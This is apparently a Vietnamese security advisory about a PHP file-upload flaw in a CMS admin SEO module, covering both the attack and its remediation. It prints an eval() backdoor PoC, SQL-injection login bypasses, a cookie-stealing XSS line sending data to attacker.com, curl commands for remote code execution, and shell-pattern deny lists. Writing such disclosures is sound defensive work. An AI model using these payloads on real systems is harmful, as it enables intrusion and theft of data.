

# Lỗ Hổng Bảo Mật PHP File Upload - Phát Hiện CVE

**Tác giả**: Hiệp Nguyễn  
**Facebook**: https://www.facebook.com/G.N.S.L.7/  
**Ngày phát hiện**: 24 tháng 6, 2025  
**Mức độ nghiêm trọng**: NGUY HIỂM (CVSS 9.8)

## 🚨 Tóm Tắt Lỗ Hổng

Một lỗ hổng bảo mật nghiêm trọng trong PHP file upload được phát hiện tại admin panel của CMS, cho phép thực thi mã từ xa thông qua việc bypass lỗi cú pháp đơn giản. Lỗ hổng này ảnh hưởng đến module cấu hình SEO, nơi một lỗi ký tự đơn giản (`=` thay vì `==`) đã bỏ qua hoàn toàn bảo mật upload file.

## 🎯 Chi Tiết Kỹ Thuật

### Loại Lỗ Hổng
- **CWE-434**: Upload File Không Hạn Chế với Loại Nguy Hiểm
- **CWE-95**: Vô Hiệu Hóa Không Đúng Cách các Chỉ Thị trong Mã Được Đánh Giá Động
- **CWE-351**: Phân Biệt Loại Không Đủ

### Thành Phần Bị Ảnh Hưởng
- **File**: `admin/templates/seo-co-ban/them_tpl.php`
- **Chức năng**: Upload File Cấu Hình SEO
- **Dòng**: 15 (Lỗi Cú Pháp trong Điều Kiện)

### Nguyên Nhân Gốc
```php
// MÃ DỄ BỊ TẤN CÔNG
if($_FILES['file']['type']='text/html' || $_FILES['file']['type']='application/json'){
//                        ^ Dùng = thay vì == 
    $chec = check_shell(file_get_contents($_FILES['file']['tmp_name']));
    if($chec!=''){
        move_uploaded_file($_FILES['file']['tmp_name'], '../'.$_FILES['file']['name']);
    }
}
```

## 💥 Dòng Thời Gian Khai Thác



### Chuỗi Tấn Công Từng Bước

1. **🔍 Trinh Sát**
   ```bash
   # Liệt kê thư mục
   dirb http://target.com/admin/
   ```

2. **🚪 Các Vector Truy Cập Admin (Không Cần Login)**

   #### **Vector A: Bypass Authentication**
   ```bash
   # Test truy cập trực tiếp admin functions
   curl "http://target.com/admin/index.php?p=seo-co-ban"
   
   # Kiểm tra session validation yếu
   curl -H "Cookie: PHPSESSID=invalid" "http://target.com/admin/"
   ```

   #### **Vector B: Default/Weak Credentials**
   ```
   Thử các combo phổ biến:
   admin:admin
   admin:123456  
   admin:password
   root:root
   administrator:admin
   demo:demo
   test:test
   ```

   #### **Vector C: SQL Injection trong Login**
   ```sql
   -- Bypass login form
   Username: admin' OR '1'='1' --
   Password: anything
   
   -- Union-based injection  
   Username: admin' UNION SELECT 1,1,1 --
   Password: ' OR '1'='1
   ```

   #### **Vector D: Session Fixation/Hijacking**
   ```javascript
   // XSS để steal admin session
   <script>
   fetch('http://attacker.com/steal.php?cookie=' + document.cookie);
   </script>
   
   // CSRF để thay đổi admin password
   
   ```

   #### **Vector E: Path Traversal & Direct Access**
   ```bash
   # Bypass qua path manipulation
   http://target.com/admin/../admin/index.php
   http://target.com/admin/./index.php?p=seo-co-ban
   
   # Truy cập direct vào admin functions
   http://target.com/admin/sources/seo-co-ban.php
   ```

   #### **Vector F: Parameter Pollution**
   ```bash
   # Bypass qua parameter manipulation
   http://target.com/admin/index.php?authenticated=1&p=seo-co-ban
   http://target.com/admin/index.php?admin=true&p=seo-co-ban
   http://target.com/admin/index.php?role=administrator&p=seo-co-ban
   http://target.com/admin/index.php?isAdmin=1&p=seo-co-ban
   ```

   #### **Vector G: Weak Session Management**
   ```bash
   # Predictable session IDs
   curl -H "Cookie: PHPSESSID=123456789" "http://target.com/admin/"
   
   # Session không expire
   curl -H "Cookie: old_admin_session" "http://target.com/admin/"
   ```

   #### **Kết quả:** Truy cập thành công `/admin/index.php?p=seo-co-ban`

3. **📤 Upload File Độc Hại**
   ```php
   // Tạo backdoor: 23.php
   <?php
   $a = array($_REQUEST["x"] => "3");
   $b = array_keys($a)[0]; 
   eval($b);
   ```

4. **🔓 Bypass Xác Thực**
   - Upload qua form "Upload file xác nhận"
   - Lỗi cú pháp `=` bypass kiểm tra type
   - File được lưu vào `../sources/23.php`

5. **💀 Thực Thi Mã**
   ```bash
   # Thực thi PHP tùy ý
   curl "http://target.com/sources/23.php?x=phpinfo()"
   curl "http://target.com/sources/23.php?x=file_put_contents('shell.php', \$shell_code)"
   ```

6. **🏗️ Duy Trì Truy Cập**
   - Upload shell thứ hai vào `uploads/files/666.php`
   - Chỉnh sửa file hệ thống để duy trì truy cập

## 🛠️ Bằng Chứng Khái Niệm (PoC)

### 1. Tạo File Backdoor
```php
<?php
// File: malicious.php
$a = array($_REQUEST["x"] => "3");
$b = array_keys($a)[0]; 
eval($b);
?>
```

### 2. Upload Khai Thác
```html
<form method="POST" action="/admin/index.php?p=seo-co-ban&a=save" enctype="multipart/form-data">
    <input type="file" name="file" />
    <input type="submit" name="capnhat" value="Upload" />
</form>
```

### 3. Thực Thi Lệnh
```bash
# Tiết lộ thông tin
curl "http://target.com/sources/malicious.php?x=phpinfo()"

# Truy cập hệ thống file
curl "http://target.com/sources/malicious.php?x=scandir('.')"

# Truy cập cơ sở dữ liệu
curl "http://target.com/sources/malicious.php?x=mysql_connect('localhost','user','pass')"
```

## 🔧 Phân Tích Files Bị Ảnh Hưởng

### Files Gốc Có Lỗ Hổng
```
admin/templates/seo-co-ban/them_tpl.php - Lỗ hổng chính
admin/lib/function.php - Hàm check_shell() yếu
uploads/.htaccess - Bảo vệ không đủ
```

### Files Độc Hại Được Tìm Thấy
```
sources/23.php - eval() backdoor (ĐÃ XÓA)
uploads/files/666.php - Upload shell (ĐÃ XÓA)
```

## 🛡️ Hướng Dẫn Khắc Phục

### 1. Hành Động Ngay Lập Tức (QUAN TRỌNG)

#### Sửa Lỗi Cú Pháp
```php
// TRƯỚC (DỄ BỊ TẤN CÔNG)
if($_FILES['file']['type']='text/html' || $_FILES['file']['type']='application/json'){

// SAU (AN TOÀN)
if($_FILES['file']['type']=='text/html' || $_FILES['file']['type']=='application/json'){
    $allowed_extensions = array('.html', '.json', '.txt');
    $file_extension = strtolower(pathinfo($_FILES['file']['name'], PATHINFO_EXTENSION));
    if(in_array('.'.$file_extension, $allowed_extensions)){
        $chec = check_shell(file_get_contents($_FILES['file']['tmp_name']));
        if($chec!=''){
            $safe_filename = basename($_FILES['file']['name']);
            $safe_filename = preg_replace('/[^a-zA-Z0-9._-]/', '', $safe_filename);
            move_uploaded_file($_FILES['file']['tmp_name'], '../'.$safe_filename);
        }
    }
}
```

#### Xóa Files Độc Hại
```bash
rm -f sources/23.php
rm -f uploads/files/666.php
find . -name "*.php" -exec grep -l "eval(" {} \;
```

### 2. Các Biện Pháp Bảo Mật Nâng Cao

#### Tăng Cường Hàm check_shell()
```php
function check_shell($text)
{
    $arr_list = array('<?php', 'eval(', 'base64', '$_F=__FILE__;', 'readdir(', 'ini_get', '<form', '<input', '<button', 
                     'exec(', 'system(', 'shell_exec(', 'passthru(', 'file_get_contents(', 'file_put_contents(',
                     'fopen(', 'fwrite(', 'include(', 'require(', 'include_once(', 'require_once(',
                     'move_uploaded_file(', '$_REQUEST', '$_GET', '$_POST', 'curl_exec(');
    $j = 0;
    for ($i = 0; $i < count($arr_list); $i++) {
        if (strlen(strstr($text, $arr_list[$i])) > 0) {
            $j = $j + 1;
        }
    }
    if ($j > 0) {
        $chuoi = "";
        // Log security attempt
        $log_data = date('Y-m-d H:i:s') . " - Shell detected: " . substr($text, 0, 100) . " - IP: " . $_SERVER['REMOTE_ADDR'] . "\n";
        file_put_contents('../logs/security_' . date('Y-m') . '.log', $log_data, FILE_APPEND);
    } else {
        $chuoi = $text;
    }
    return $chuoi;
}
```

#### Tăng Cường Bảo Mật Thư Mục Uploads
```apache
# uploads/.htaccess
# Disable PHP execution
php_flag engine off

# Deny dangerous file types
<FilesMatch "\.(?i:php|phtml|php3|php4|php5|pl|py|jsp|asp|sh|cgi)$">
    Order Allow,Deny
    Deny from all
</FilesMatch>

# Disable directory listing
Options -Indexes

# Allow only specific file types
<FilesMatch "\.(jpg|jpeg|png|gif|pdf|doc|docx|txt)$">
    Order Allow,Deny
    Allow from all
</FilesMatch>
```

### 3. Giám Sát Bảo Mật

#### Máy Quét Malware
```php
<?php
/**
 * Security Scanner - Detect malicious files
 * Author: Hiệp Nguyễn
 * Facebook: https://www.facebook.com/G.N.S.L.7/
 */

$dangerous_patterns = [
    'eval(', 'base64_decode(', 'exec(', 'system(', 'shell_exec(',
    'passthru(', 'file_get_contents(', 'file_put_contents(',
    'move_uploaded_file(', 'gzinflate(', 'str_rot13(',
    '$_REQUEST', '$_GET', '$_POST', 'goto ', '__FILE__', '__DIR__'
];

function scanFile($file_path, $patterns) {
    $content = file_get_contents($file_path);
    $issues = [];
    
    foreach ($patterns as $pattern) {
        if (stripos($content, $pattern) !== false) {
            $issues[] = $pattern;
        }
    }
    
    return $issues;
}

// Scan implementation...
```

## 📊 Đánh Giá Tác Động

### Thước Đo Mức Độ Nghiêm Trọng
- **CVSS Base Score**: 9.8 (Nghiêm Trọng)
- **Vector Tấn Công**: Mạng
- **Độ Phức Tạp Tấn Công**: Thấp
- **Quyền Cần Thiết**: Không (nếu admin panel có thể truy cập)
- **Tương Tác Người Dùng**: Không
- **Phạm Vi**: Thay Đổi
- **Tác Động Bảo Mật**: Cao
- **Tác Động Toàn Vẹn**: Cao
- **Tác Động Khả Dụng**: Cao

### Hậu Quả Có Thể Xảy Ra
- ✅ **Thực Thi Mã Từ Xa**: Xâm nhập hoàn toàn server
- ✅ **Rò Rỉ Dữ Liệu**: Truy cập thông tin nhạy cảm trong cơ sở dữ liệu
- ✅ **Phá Hoại**: Khả năng chỉnh sửa website
- ✅ **Lan Rộng**: Khả năng xâm nhập mạng
- ✅ **Cài Đặt Backdoor**: Truy cập trái phép lâu dài

## 🔒 Khuyến Nghị Phòng Thủ

### Ngay Lập Tức (24-48 giờ)
- [ ] **Vá lỗi cú pháp** trong form upload SEO
- [ ] **Xóa files độc hại** khỏi server
- [ ] **Thay đổi tất cả mật khẩu admin**
- [ ] **Xem xét logs upload file** để tìm hoạt động đáng ngờ
- [ ] **Quét tìm backdoors bổ sung**

### Ngắn Hạn (1-2 tuần)
- [ ] **Triển khai xác thực loại file**
- [ ] **Áp dụng hạn chế .htaccess**
- [ ] **Bật logging bảo mật**
- [ ] **Thiết lập cảnh báo giám sát**
- [ ] **Thực hiện kiểm toán bảo mật**

### Dài Hạn (1-3 tháng)
- [ ] **Xem xét code bảo mật** của toàn bộ ứng dụng
- [ ] **Triển khai Web Application Firewall**
- [ ] **Kiểm tra thâm nhập định kỳ**
- [ ] **Đào tạo nhận thức bảo mật**
- [ ] **Quét lỗ hổng tự động**

## 📚 Tài Liệu Tham Khảo & Nguồn

### Tiêu Chuẩn Bảo Mật
- [OWASP File Upload Security](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [SANS PHP Security](https://www.sans.org/white-papers/36952/)
- [NIST Cybersecurity Framework](https://www.nist.gov/cyberframework)

### Tham Chiếu CVE
- **CWE-434**: Upload File Không Hạn Chế với Loại Nguy Hiểm
- **CWE-95**: Vô Hiệu Hóa Không Đúng Cách các Chỉ Thị trong Mã Được Đánh Giá Động
- **CWE-351**: Phân Biệt Loại Không Đủ

### Công Cụ Được Sử Dụng
- **Phân Tích Tĩnh**: Máy quét bảo mật PHP tùy chỉnh
- **Giám Sát File**: Thay đổi hệ thống file theo thời gian thực
- **Phân Tích Log**: Tương quan sự kiện bảo mật

## 📞 Tiết Lộ Có Trách Nhiệm

Lỗ hổng này được phát hiện trong quá trình đánh giá bảo mật và được báo cáo thông qua các thực hành tiết lộ có trách nhiệm:

1. **Phát Hiện**: 24 tháng 6, 2025
2. **Xác Minh Nội Bộ**: Cùng ngày
3. **Khắc Phục Ngay Lập Tức**: Vá lỗi trong vòng 4 giờ
4. **Tài Liệu**: Cung cấp phân tích kỹ thuật hoàn chỉnh
5. **Tiết Lộ Công Khai**: Sau khi khắc phục và kiểm tra hoàn toàn

## 📝 Lời Cảm Ơn

**Nhà Nghiên Cứu**: Hiệp Nguyễn  
**Liên Hệ**: https://www.facebook.com/G.N.S.L.7/  
**Chuyên Môn**: Bảo Mật Ứng Dụng Web, Lỗ Hổng PHP  

### Cảm Ơn Đặc Biệt
- Cộng đồng bảo mật vì đã chia sẻ kiến thức
- OWASP vì các hướng dẫn bảo mật
- Những người đóng góp vào các thực hành tốt nhất về bảo mật PHP

---

**Tuyên Bố Miễn Trừ Trách Nhiệm**: Thông tin này được cung cấp chỉ cho mục đích giáo dục và phòng thủ. Tác giả không khuyến khích việc sử dụng thông tin này cho mục đích độc hại.

**Giấy Phép**: Nghiên cứu này được chia sẻ theo các nguyên tắc tiết lộ có trách nhiệm để cải thiện bảo mật ứng dụng web. 